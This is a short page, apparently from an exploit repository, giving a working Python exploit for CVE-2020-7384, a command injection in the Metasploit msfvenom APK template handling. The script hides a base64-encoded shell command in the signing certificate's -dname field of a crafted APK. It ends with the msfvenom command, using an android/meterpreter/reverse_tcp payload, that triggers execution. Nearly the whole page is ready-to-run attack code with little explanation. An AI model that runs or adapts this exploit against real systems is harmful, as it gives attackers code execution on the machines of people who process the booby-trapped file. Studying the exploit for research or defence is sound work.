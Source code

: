 1.  1.  Info

[CVE-2020-7384](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7384)

1.  1.  EXP

<!-- -->

    # Exploit Title: Metasploit Framework 6.0.11 - msfvenom APK template command injection
    # Exploit Author: Justin Steven
    # Vendor Homepage: https://www.metasploit.com/
    # Software Link: https://www.metasploit.com/
    # Version: Metasploit Framework 6.0.11 and Metasploit Pro 4.18.0
    # CVE : CVE-2020-7384

    #!/usr/bin/env python3
    import subprocess
    import tempfile
    import os
    from base64 import b64encode

    # Change me
    payload = 'echo "Code execution as $(id)" > /tmp/win'

    # b64encode to avoid badchars (keytool is picky)
    payload_b64 = b64encode(payload.encode()).decode()
    dname = f"CN='|echo {payload_b64} | base64 -d | sh #"

    print(f"[+] Manufacturing evil apkfile")
    print(f"Payload: {payload}")
    print(f"-dname: {dname}")
    print()

    tmpdir = tempfile.mkdtemp()
    apk_file = os.path.join(tmpdir, "evil.apk")
    empty_file = os.path.join(tmpdir, "empty")
    keystore_file = os.path.join(tmpdir, "signing.keystore")
    storepass = keypass = "password"
    key_alias = "signing.key"

    # Touch empty_file
    open(empty_file, "w").close()

    # Create apk_file
    subprocess.check_call(["zip", "-j", apk_file, empty_file])

    # Generate signing key with malicious -dname
    subprocess.check_call(["keytool", "-genkey", "-keystore", keystore_file, "-alias", key_alias, "-storepass", storepass,
                           "-keypass", keypass, "-keyalg", "RSA", "-keysize", "2048", "-dname", dname])

    # Sign APK using our malicious dname
    subprocess.check_call(["jarsigner", "-sigalg", "SHA1withRSA", "-digestalg", "SHA1", "-keystore", keystore_file,
                           "-storepass", storepass, "-keypass", keypass, apk_file, key_alias])

    print()
    print(f"[+] Done! apkfile is at {apk_file}")
    print(f"Do: msfvenom -x {apk_file} -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null")


1.  1.  Source

